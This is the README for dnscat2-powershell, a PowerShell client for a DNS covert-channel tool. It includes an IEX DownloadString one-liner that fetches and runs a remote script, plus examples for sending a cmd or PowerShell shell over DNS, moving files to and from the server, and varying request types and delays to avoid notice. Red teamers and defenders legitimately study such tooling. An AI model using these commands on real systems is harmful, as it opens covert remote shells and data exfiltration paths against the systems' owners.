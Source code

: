 [dnscat2](https://github.com/iagox86/dnscat2) is a DNS covert channel tool by [@iagox86 (Ron Bowes)](https://blog.skullsecurity.org/) which is used to transfer data over DNS requests.

This is a powershell version of the dnscat2 C client.

To use this script, you'll need the ruby [dnscat2 server](https://github.com/iagox86/dnscat2). **Make sure to add the `--no-cache` option when running the server. This client is incompatible with the server's caching.**

### Setup

[First, install the dnscat2 server.](https://github.com/iagox86/dnscat2/blob/master/README.md) Start the server with caching disabled using `--no-cache`. The command to start your server should look something like this: `ruby dnscat2.rb --dns="domain=example.com" --no-cache`

Next, launch Windows Powershell (version 2.0 or later). You can use this command to load the dnscat2 powershell functions:

    IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/lukebaggett/dnscat2-powershell/master/dnscat2.ps1')

### Examples

Start-Dnscat2 is the actual function used as the client. Specifiy the dnscat2 server using `-Domain`.

    Start a command session, and send DNS requests to 8.8.8.8 on port 53:
        Start-Dnscat2 -Domain <dnscat2 server> -DNSServer 8.8.8.8

    Send a cmd shell, and send DNS requests to the default DNS Server set in Windows:
        Start-Dnscat2 -Domain <dnscat2 server> -Exec cmd

    Start a console session. Only use CNAME, MX, and AAAA requests:
        Start-Dnscat2 -Domain <dnscat2 server> -LookupTypes @("CNAME","MX","AAAA") -Console

    Do not encrypt the session. Encryption is enabled by default.
        Start-Dnscat2 -Domain <dnscat2 server> -NoEncryption

### Powershell Command Session Commands

The client can handle normal dnscat2 commands, or the *powershell version* of that command. To use the powershell version of a command, set specific parameters the client will detect (These are commands run from a command session on the server):

    Start a new session which simulates a Powershell shell, like ExecPS:
        exec psh

    Upload app.exe on the server into a byte array stored in the $app powershell variable:
        upload app.exe bytes:$app
    
    Download the byte array stored in the $app powershell variable to app.exe on the server:
        download bytes:$app app.exe

### Start-Dnscat2

    -Domain <String>          The Domain being used by the dnscat2 server.
    -DNSServer <String>       The hostname or IP Address to send DNS queries to. (Default: Set by Windows)
    -DNSPort <Int32>          The port to send DNS queries to. (Default: 53)
    
    -Command                  Start a command session. (Default)
    -Exec <String>            Link the I/O of a process with the Dnscat2 session.
    -Console                  Link the I/O of the console with the Dnscat2 session.
    -ExecPS                   Simulate a Powershell session and link the IO with the Dnscat2 session.
                              WARNING: Exiting will kill the entire dnscat2 client, not just the session.
    
    -PreSharedSecret          Set the same secret on the server to authenticate and prevent MITM.
    -NoEncryption             Do not use encryption.
    
    -LookupTypes <String[]>   Set an array of lookup types to randomly switch between.
                              Only TXT, MX, CNAME, A, and AAAA records are supported. Default: @(TXT, MX, CNAME)
    -Delay <Int32>            Set a delay between each request, in milliseconds. (Default: 0)
    -MaxRandomDelay <Int32>   Set the max value of a random delay added to the normal delay, in milliseconds. (Default: 0)
    -MaxPacketSize <Int32>    Maximum length of a dnscat2 packet. (Default: 240)
    -Name <String>            The name of your dnscat2 session. (Default: hostname)

### ExecPS and 'exec psh'

dnscat2-powershell simulates a powershell session by passing data from the server to Invoke-Expression. Only stdout is returned, and variables are preserved as long as the client is running. **Watch out** for things that exit powershell like "exit" and "break", because the entire dnscat2-powershell client will exit, not just the ExecPS session.
